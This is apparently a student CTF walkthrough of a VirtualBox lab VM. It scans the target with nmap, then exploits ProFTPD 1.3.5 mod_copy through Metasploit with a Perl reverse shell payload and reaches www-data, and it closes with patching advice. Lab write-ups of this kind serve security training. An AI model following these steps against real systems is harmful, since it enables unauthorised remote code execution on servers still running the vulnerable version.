


## **Task 4 – Vulnerability Report (CTF Walkthrough)**

---

### **Challenge Information**

* **VM Setup**: OVA file imported into **VirtualBox** (NAT Network)
* **Attacker Machine**: Kali Linux

  * **IP**: `10.0.2.15`
* **Target Machine**: Challenge VM

  * **IP**: `10.0.2.4`
* **Tools Used**:

  * Nmap (7.95)
  * Metasploit Framework (msf6)

---

## **1. Enumeration**

### **1.1 Nmap Service Scan**

Command:

```bash
nmap -sC -sV -A 10.0.2.4 -oN nmap_initial.txt
```

**Findings:**

```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu
631/tcp  open   ipp         CUPS 1.7
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
```


---

### **1.2 Vulnerability Notes**

* **FTP (ProFTPD 1.3.5)** – Known `mod_copy` Remote Command Execution vulnerability.
* **HTTP (Port 80)** – Directory listing enabled; public access to `chat/`, `drupal/`, `phpmyadmin/`, and `payroll_app.php`.
* **Samba (Port 445)** – Message signing disabled; susceptible to MITM attacks.
* **CUPS (Port 631)** – `PUT` method enabled; may allow file uploads.
* **MySQL (Port 3306)** – Open to network but requires credentials.
* **Jetty (Port 8080)** – Outdated version; potential Java-based vulnerabilities.

---

## **2. Exploitation**

### **2.1 Vulnerability Search**

Searched for ProFTPD 1.3.5 exploits:

```bash
searchsploit ProFTPD 1.3.5
```

Found:

* `ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)`

---

### **2.2 Metasploit Exploitation**

1. Start Metasploit:

```bash
msfconsole
```

2. Search and select module:

```bash
search ProFTPD 1.3.5
use 0
```



3. Show options and configure target:

```bash
show options
set RHOST 10.0.2.4
set SITEPATH /var/www/html
```

4. Initial payload failed, switched to Perl reverse shell:

```bash
set payload cmd/unix/reverse_perl
```

5. Exploit:

```bash
exploit
```

**Result:**

```
[*] Command shell session 4 opened (10.0.2.15:4444 -> 10.0.2.4:56974)
```



---

### **2.3 Post-Exploitation**

* Verified user:

```bash
whoami
```

Output:

```
www-data
```

* Checked `/var/www/html`:

```bash
ls
```

Found:

```
chat
drupal
payroll_app.php
phpmyadmin
shell
```

<!--  -->

No privilege escalation was performed; engagement ended at `www-data`.

---

## **3. Vulnerability Explanation – ProFTPD mod\_copy**

The `mod_copy` module in ProFTPD allows file copying on the server using the `SITE CPFR` and `SITE CPTO` commands.
In vulnerable configurations, it can be abused to:

* Copy a malicious payload to a web-accessible directory
* Trigger the payload for remote code execution

In this case, Metasploit automated:

* Upload of a malicious PHP payload to `/var/www/html`
* Execution of the payload via HTTP to open a reverse shell

---

## **4. Recommendations**

* **Update ProFTPD** to a patched version (> 1.3.5) or disable `mod_copy`.
* Disable **directory listing** in Apache.
* Enable **Samba message signing**.
* Restrict CUPS and MySQL services to localhost.
* Regularly patch **Jetty** to the latest version.

---

**Prepared By:** *DILSHAD AHAMMED N*

**Date:** Aug 13, 2025